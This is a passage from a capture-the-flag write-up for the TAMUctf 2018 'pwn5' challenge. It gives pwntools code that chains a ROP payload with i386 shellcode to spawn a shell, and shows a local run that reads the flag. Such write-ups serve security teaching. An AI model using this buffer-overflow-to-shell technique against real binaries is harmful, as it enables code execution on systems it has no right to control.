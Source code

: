 ```python
sh_payload = asm(shellcraft.i386.sh())
```

And done.

Now to put it all together.

```python
sploit = to_eip + rop.chain() + '\n' + asm(shellcraft.i386.sh()) + '\n'

p.send(sploit)
p.interactive()
```

Note the insertion of a newline between the ROP and shellcode so as to have the next `gets` read the entirety of shellcode (buffered or not) into our mmap. Also, we just so happened to be lucky enough that our shellcode did not contain any 0x0a bytes, so no encoder is necessary.

Testing it locally.

```console
$ python solution.py
[*] '/home/user/ctf/2018/tamuctf/pwn/pwn5/pwn5'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './pwn5': pid 22543
[*] Loaded cached gadgets for './pwn5'
[*] Switching to interactive mode
Welcome to the TAMU Text Adventure!
You are about to begin your journey at Texas A&M as a student
But first tell me a little bit about yourself
What is your first name?: What is your last name?: What is your major?: Are you joining the Corps of Cadets?(y/n):
Welcome, John Doe, to Texas A&M!
You wake up as your alarm clock goes off feeling well rested and ready for the day
You decdide to get breakfast at Sbisa and enjoy some nice eggs and potatos
You finish up your mediocre breakfast and head on out
Finally your first day of class begins at Texas A&M. What do you decide to do next?(Input option number)
1. Go to class.
2. Change your major.
3. Skip class and sleep
4. Study
You decide that you are already tired of studying F# and go to the advisors office to change your major
What do you change your major to?: You changed your major to: F#
$ ls
desc  pwn5    pwn5.id1  pwn5.idb  pwn5.til
flag  pwn5.id0    pwn5.id2  pwn5.nam  solution.py
$ cat flag
lol
$
[*] Stopped process './pwn5' (pid 22543)
```
